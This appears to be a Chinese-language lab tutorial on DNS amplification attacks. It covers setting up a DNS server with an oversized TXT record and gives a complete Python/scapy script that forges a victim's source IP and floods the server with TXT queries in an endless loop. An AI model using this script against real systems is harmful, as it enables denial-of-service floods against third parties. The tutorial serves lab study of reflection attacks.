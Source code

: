 <h1>实验环境</h1>
<div>DNS服务器（10.61.1.175）：windows server 2003及自带的DNS服务器；
攻击机（10.61.1.177）：需要Python+scapy环境；
被攻击机（10.61.1.157）：网络连接正常的机器；</div>
<h1>搭建DNS服务器</h1>
<div>如何在win2003环境下搭建DNS服务器，网上教程一大把，自行查找。此处其实是在DNS服务器上创建一个异常（超大）的TXT记录，当黑客查询请求这条记录时，DNS服务器返回这条超长的TXT记录，达到放大攻击流量的效果。
<ul>
	<li>创建一个test.com域；</li>
	<li>在test.com域下新建主机，记录类型为A，记录名称为www，设置IP为10.61.1.175；</li>
	<li>在test.com域下新建资源记录，记录类型为TXT，记录名称为www，设置文件为任意一个字符串，长度尽量大，据说最大是4000字节；</li>
</ul>
</div>

<h1>DNS放大攻击脚本</h1>

	#!/usr/bin/env python
	from scapy.all import *
	a = IP(dst="10.61.1.175",src="10.61.1.157")
	b = UDP(dport=53)
	c = DNS(id=1,qr=0,opcode=0,tc=0,rd=1,qdcount=1,ancount=0,nscount=0,arcount=0)
	c.qd=DNSQR(qname="www.test.com",qtype="TXT",qclass="IN")
	p = a/b/c
	while 1:
		send(p)

<ul>
	<li>由于UDP的无连接性，可以实现反射攻击的目的，在IP层伪造源IP为被攻击机的IP地址10.61.1.157，目的IP就是DNS服务器的IP地址10.61.1.175;</li>
	<li>DNS服务器的服务器端口是53，在UDP层将目的端口设置为53;</li>
	<li>查询域名是www.test.com，查询的类型为TXT，也就是请求查询我们在DNS服务器上恶意设置的TXT记录，实现放大目的。</li>


* <iframe src="//player.bilibili.com/player.html?aid=725064817&bvid=BV13S4y1S7u9&cid=558430612&p=1" scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true"> </iframe>
